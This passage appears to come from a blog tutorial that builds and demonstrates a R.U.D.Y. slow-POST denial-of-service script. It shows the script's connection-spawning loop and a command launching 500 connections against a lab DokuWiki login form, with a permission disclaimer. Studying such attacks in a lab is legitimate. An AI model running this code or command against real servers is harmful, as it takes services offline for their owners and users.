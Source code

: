             # craft header with random user agent for each connection
            headers = craft_headers(configs['path'],
                                configs['host'],
                                random.choice(configs['user_agents']),
                                configs['param'],
                                configs['cookies'])

            # launch attack as child process
            p = Process(target=launch_attack, args=(i, configs, headers))
            p.start()
            connections.append(p)

        # wait for all processes to finish or user interrupt
        for c in connections:
            c.join()

    except KeyboardInterrupt:

        # terminate all connections on user interrupt
        print '\n[!] Exiting on User Interrupt'
        for c in connections:
            c.terminate()
        for c in connections:
            c.join()

{% endhighlight %} 

#R.U.D.Y. attack demo

Now let's see our script in action. For this demo I'm going to be running our script against a DokuWiki installation served by Apache2 on Ubuntu Server. Note that I'm running this on a lab network that I have full permission to attack. Be very careful running these kind of tests on networks and servers that you do not have full control over. Attacking your own site on a shared network or server could possibly be a TOS violation or illegal.

![Target info]({{ site.baseurl }}images/rudy-post/target-info.png)

The first thing we're going to do is start the script using the following command:

{% highlight bash %}
	./run.py --connections 500 --target http://192.168.99.102/doku.php
{% endhighlight %}


This will launch our script against the DokuWiki instance at 192.168.99.102/doku.php with 500 concurrent connections. The script will then prompt us to select a form from the target web page. In the screenshot below, I select "Form #2" to select the Login Form.

![Choose form]({{ site.baseurl }}images/rudy-post/choose-form.png)
